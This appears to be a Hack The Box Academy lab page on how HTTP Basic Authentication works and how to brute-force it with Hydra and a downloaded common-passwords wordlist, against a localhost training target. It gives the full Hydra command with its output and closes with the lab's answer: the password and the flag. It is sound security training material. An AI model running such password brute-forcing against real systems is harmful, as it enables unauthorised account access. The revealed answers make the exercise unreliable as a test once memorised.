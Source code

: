 Web applications often employ authentication mechanisms to protect sensitive data and functionalities. Basic HTTP Authentication, or simply `Basic Auth`, is a rudimentary yet common method for securing resources on the web. Though easy to implement, its inherent security vulnerabilities make it a frequent target for brute-force attacks.

In essence, Basic Auth is a challenge-response protocol where a web server demands user credentials before granting access to protected resources. The process begins when a user attempts to access a restricted area. The server responds with a `401 Unauthorized` status and a `WWW-Authenticate` header prompting the user's browser to present a login dialog.

Once the user provides their username and password, the browser concatenates them into a single string, separated by a colon. This string is then encoded using Base64 and included in the `Authorization` header of subsequent requests, following the format `Basic <encoded_credentials>`. The server decodes the credentials, verifies them against its database, and grants or denies access accordingly.

For example, the headers for Basic Auth in a HTTP GET request would look like:

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Exploiting Basic Auth with Hydra

**To follow along, start the target system via the question section at the bottom of the page.**

We will use the `http-get` hydra service to brute force the basic authentication target.

In this scenario, the spawned target instance employs Basic HTTP Authentication. We already know the username is `basic-auth-user`. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:

```shell-session
# Download wordlist if needed
KaoruRyusaki@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
KaoruRyusaki@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

Let's break down the command:

- `-l basic-auth-user`: This specifies that the username for the login attempt is 'basic-auth-user'.
- `-P 2023-200_most_used_passwords.txt`: This indicates that Hydra should use the password list contained in the file '2023-200_most_used_passwords.txt' for its brute-force attack.
- `127.0.0.1`: This is the target IP address, in this case, the local machine (localhost).
- `http-get /`: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
- `-s 81`: This overrides the default port for the HTTP service and sets it to 81.

Upon execution, Hydra will systematically attempt each password from the `2023-200_most_used_passwords.txt` file against the specified resource. Eventually it will return the correct password for `basic-auth-user`, which you can use to login to the website and retrieve the flag.






#### Question

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

* Run command " hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt \<ip given> http-get / -s \<port given> ", hydra get me a positive response stating the password is " Password@123 "
* Use both the ip and the port given to open a webpage in any browser, it will ask you for the username and password which you already have, giving you access to the webpage with the flag
* HTB{th1s_1s_4_f4k3_fl4g}
